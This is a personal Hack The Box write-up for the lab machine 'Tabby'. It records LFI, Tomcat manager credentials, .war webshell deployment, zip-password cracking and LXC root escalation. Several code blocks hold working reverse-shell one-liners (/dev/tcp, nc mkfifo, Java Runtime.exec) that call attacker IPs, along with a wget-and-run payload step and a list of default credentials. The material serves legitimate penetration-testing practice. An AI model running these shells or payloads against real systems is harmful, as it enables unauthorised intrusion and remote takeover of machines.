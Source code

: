 # <span style="color:#FF5050">Machine #23 Tabby</span>  


## <span style="color:#FF5050">Checklist 🤓   

- [x] LFI
- [ ] ~~Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`~~
- [ ] Scower the RUNNING.txt file for something.
- [ ] Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`
- [x] Try default credentials for `/html/manager` and `/html/host-manager`.
- [ ] Bruteforce the `/html/manager` login credentials.

<br/><br/>


## <span style="color:#FF5050">What Do We Have? 🤔🤔 

* A `http://10.10.10.194:8080/manager/html` manager page that prompts me for a username and a password (Tried the defaults and they didn't work).
* Default credentials that could be the ones  
  ```
  admin:admin
  tomcat:tomcat
  admin:<NOTHING>
  admin:s3cr3t
  tomcat:s3cr3t
  admin:tomcat
  ```
<br/><br/> 


## <span style="color:#FF5050">Random Notes👀
  
* PHP is being used in the backend.  
* So LFI gives me access to files, let's call it, outside of the sandboxed environment but it does not allow me to read files I don't have privilege to read. So what am I supposed to do with it?
* I will use the manual exploit to try and understand it as much as I can (The upload war thing).
* It seems that I can't upload a .war file unless I have the right privileges which can be acquired if I have the roles admin, manager or manager-script and according to the `tomcat-users.xml` file I have the `manager-script` role.  
* The path was right infront of me in the HackTricks page in the RCE section. What lesson did I learn? Read articles properly and don't skip stuff.
* I will be creating a .war webshell and then I will upload it with this line of code  
  ```
  curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
  ```  
* After creating the war file and uploading it using the previous curl code I can just visit the path `/webshell` with `?cmd=[COMMAND]` which will lead to executing the webshell.  
* Imma try and upload a reverse shell from the beginning and not a webshell  
  ```java
  Runtime r = Runtime.getRuntime();
  Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.8/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'");
  p.waitFor();
  ```

  ```
  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f
  ```
  ```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
<br/><br/>  


## <span style="color:#FF5050">How Did I Own This Shit 😎🥳  

1. At first I looked through the web service and the tomcat service more than enough time which was not really necessary because I just had to find the right path to get to `tomcat-users.xml` I just was using the wrong paths. But the problem is how can I tell when I have an LFI and a file didn't show that I've been using the wrong path and not that I don't have permission to use it because, technically, the LFI is on the web service which means the `www-data` user and the file I'm trying to read is on the tomcat service which has another user `tomcat`? This thing has been nagging me all the time. How can I tell???  
2. Any how after you open the `tomcat-users.xml` file there's not much left to own the machine just that I get a password we can then authenticate as `host-manager` and then we can use the infamous .war exploit.
3. I used `msfvenom`'s java reverse shell (The only one that worked).
4. Then I got access as tomcat on the system.
5. Found out that the `/files` directory in the web service is owned by `ash` which was a bit weird and was kind of a hint that told me that maybe this directory will give me ash and it certainly did. There was a zipped file inside of it, I transferred this file to my box and tried to crack it using `fcrackzip` at first I tried the bruteforce mode but it didn't work and it didn't make any sense either os I tried dictionary mode with rockyou and it worked I cracked the password of the zipped file because it was password protected.
6. Anyway the contents of the zipped backup file weren't as important as the password because poor ash used the same password for their user on the OS which gave me access to him.
7. He was in group LXC so it wasn't that hard to get root afterwards. The priv esc of this type is all over the internet but I wanted to understand it fully why is it that when I create a container with alpine with this group that I can access the root? I still don't get that I want to research this more.

<br/><br/>

## <span style="color:#FF5050">Writeups ✍🏽📓   

### The Official HTB Writeup  

* When the reverse shell didn't work this is what they did which is actually a good idea
    <blockquote>
    Getting a reverse shell using the above command didn't work. Let's create a reverse shell, start an
    HTTP server locally and download it to the remote machine
    </blockquote>

    * Like this code --> `echo "0<&196;exec 196<>/dev/tcp/10.10.14.3/5555; sh <&196 >&196 2>&196" > shell
php -S 0.0.0.0:8000`.    

  * Then from the webshell I enter the following   
    ```
    wget http://10.10.14.3:8000/shell-x64.elf -O /tmp/shell
    chmod +x /tmp/shell
    bash /tmp/shell
    ```

<br/><br/> 
